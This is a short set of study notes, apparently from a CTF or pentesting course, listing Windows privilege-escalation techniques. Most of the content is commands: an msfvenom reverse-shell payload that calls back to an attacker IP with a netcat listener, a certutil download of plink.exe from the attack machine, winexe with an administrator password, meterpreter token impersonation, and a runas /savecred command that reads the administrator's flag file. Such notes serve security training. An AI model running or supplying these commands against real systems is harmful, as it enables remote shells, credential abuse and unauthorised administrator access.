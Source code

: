 - when in a meterpreter shell you can use: `load powershell`, before running PowerUp.ps1 need to bypass the execution policy for PowerShell: `powershell -ep bypass`

### manual exploit using msfvenom

- `msfvenom -p windows/shell_reverse_tcp lhost=<attacker machine's IP> lport=<listening port> -f aspx > manual.aspx`
- don't forget to listen on `nc -lnvp <port>`

### Escalation path: password and port forwarding

- **winexe** is a script allowing us to use Linux commands on windows, use it from shell
- `winexe -U Administrator%<password> //127.0.0.1 "cmd.exe"`
- on kali machine `apt install ssh`
- quick mod on ssh itself: `nano /etc/ssh/sshd_config` **#PermitRootLogin** uncomment it and change it's permission to **yes**

### Using plink.exe

- **Bring file over to target machine in Windows:** `certutil -urlcache -f http://<attack machine's IP>/plink.exe`
- find a folder with wright priv. /tmp is good
- use plink for port forwarding

### Windows subsystem for Linux

- `where /R c:\windows bash.exe`

### Impersonation and Potato Attack

### In Metasploit meterpreter shell

- `getuid`
- `load_incognito`
- `list_tokens -u`
- `impersonate token <domain controller's name>\\<username>`
- `shell`

### Checking results

- in Windows: `whoami /priv`
- in metasploit `getprivs`
- alternatively we can use metasploit exploit suggester as well: `run post/multi/recon/exploit_suggester`

### Escalation path: runas

- `cmdkey /list` shows currently stored credential keys
- use runas.exe tool which is built in to Windows
- run cmd.exe as Administrator leads to root shell:
- ***(similar when running sudo on Linux but here we don't have to have the credentials)***
- `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe \c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt`
